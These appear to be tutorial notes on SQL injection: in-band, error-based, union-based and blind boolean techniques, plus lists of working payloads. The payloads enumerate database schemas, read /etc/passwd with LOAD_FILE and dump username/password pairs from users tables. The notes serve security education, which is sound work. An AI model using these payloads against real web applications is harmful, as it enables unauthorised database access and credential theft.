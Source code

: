 SQL (Structured Query Language) Injection, mostly referred to as SQLi, is an attack on a web application database server that causes malicious queries to be executed. When a web application communicates with a database using input from a user that hasn't been properly validated, there runs the potential of an attacker being able to steal, delete or alter private and customer data and also attack the web applications authentication methods to private or customer areas. This is why as well as SQLi being one of the oldest web application vulnerabilities, it also can be the most damaging.

In this room, you'll learn what databases are, what SQL is with some basic SQL commands, how to detect SQL vulnerabilities, how to exploit SQLi vulnerabilities and as a developer how you can protect yourself against SQL Injection.

## What is SQL Injection?
The point wherein a web application using SQL can turn into SQL Injection is when user-provided data gets included in the SQL query.

## In-Band SQL Injection
In-Band SQL Injection is the easiest type to detect and exploit; In-Band just refers to the same method of communication being used to exploit the vulnerability and also receive the results, for example, discovering an SQL Injection vulnerability on a website page and then being able to extract data from the database to the same page.

- Error-Based SQL Injection:
This type of SQL Injection is the most useful for easily obtaining information about the database structure as error messages from the database are printed directly to the browser screen. This can often be used to enumerate a whole database.

- Union-Based SQL Injection:
This type of Injection utilises the SQL UNION operator alongside a SELECT statement to return additional results to the page. This method is the most common way of extracting large amounts of data via an SQL Injection vulnerability.
## Entry point detection
      [Nothing]
     '
     "
     `
     ')
     ")
     `)
     '))
     "))
     `))
## Extract database names, table names and column names
     #Database names
     -1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata

     #Tables of a database
     -1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]

     #Column names
     -1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]

## Blind SQLi

Unlike In-Band SQL injection, where we can see the results of our attack directly on the screen, blind SQLi is when we get little to no feedback to confirm whether our injected queries were, in fact, successful or not, this is because the error messages have been disabled, but the injection still works regardless. It might surprise you that all we need is that little bit of feedback to successful enumerate a whole database.

- Boolean Based: Boolean based SQL Injection refers to the response we receive back from our injection attempts which could be a true/false, yes/no, on/off, 1/0 or any response which can only ever have two outcomes. That outcome confirms to us that our SQL Injection payload was either successful or not. On the first inspection, you may feel like this limited response can't provide much information. Still, in fact, with just these two responses, it's possible to enumerate a whole database structure and contents.
##
      ' OR '1'='1
      ' OR '1'='1' --
      ' OR '1'='1' /*
      ') OR ('1'='1
      ') OR ('1'='1' --
      ') OR ('1'='1' /*
      ")) OR (("1"="1
      ")) OR (("1"="1' --
      ")) OR (("1"="1' /*
      ')) OR (('1'='1
      ')) OR (('1'='1' --
      ')) OR (('1'='1' /*
      ' OR 1=1 --
      ' OR 1=1 /*
      ') OR 1=1 --
      ') OR 1=1 /*
      ")) OR (("1"="1' --
      ")) OR (("1"="1' /*
      ')) OR (('1'='1' --
      ')) OR (('1'='1' /*
      ' OR '1'='1' LIMIT 1 --
      ') OR ('1'='1' LIMIT 1 --
      ")) OR (("1"="1' LIMIT 1 --
      ')) OR (('1'='1' LIMIT 1 --
      ' OR '1'='1' UNION SELECT NULL --
      ') OR ('1'='1' UNION SELECT NULL --
      ")) OR (("1"="1' UNION SELECT NULL --
      ')) OR (('1'='1' UNION SELECT NULL --
      ' OR '1'='1' UNION SELECT NULL, NULL --
      ') OR ('1'='1' UNION SELECT NULL, NULL --
      ")) OR (("1"="1' UNION SELECT NULL, NULL --
      ')) OR (('1'='1' UNION SELECT NULL, NULL --
      ' OR '1'='1' ORDER BY 1 --
      ' OR '1'='1' ORDER BY 2 --
      ' OR '1'='1' ORDER BY 3 --
      ' OR '1'='1' ORDER BY 4 --
      ' OR '1'='1' UNION SELECT NULL --
      ' OR '1'='1' UNION SELECT 'a' --
      ' OR '1'='1' UNION SELECT 'a', 'b' --
      ' OR '1'='1' UNION SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES --
      ' OR '1'='1' UNION SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS --
      ' OR '1'='1' UNION SELECT @@VERSION --
      ' OR '1'='1' UNION SELECT USER() --
      ' OR '1'='1' UNION SELECT DATABASE() --
      ' OR '1'='1' UNION SELECT @@hostname --
      ' OR '1'='1' UNION SELECT LOAD_FILE('/etc/passwd') --
      ' OR '1'='1' UNION SELECT CONCAT('Username: ', username, ' Password: ', password) FROM users --
      ' OR '1'='1' UNION SELECT NULL, table_name FROM information_schema.tables --
      ' OR '1'='1' UNION SELECT NULL, column_name FROM information_schema.columns --
      ' OR '1'='1' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = 'database_name' --
      ' OR '1'='1' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 'table_name' --
      ' OR '1'='1' UNION SELECT NULL, concat(username, ':', password) FROM users --

- Time-Based: A time-based blind SQL Injection is very similar to the above Boolean based, in that the same requests are sent, but there is no visual indicator of your queries being wrong or right this time. Instead, your indicator of a correct query is based on the time the query takes to complete. This time delay is introduced by using built-in methods such as SLEEP(x) alongside the UNION statement. The SLEEP() method will only ever get executed upon a successful UNION SELECT statement. 






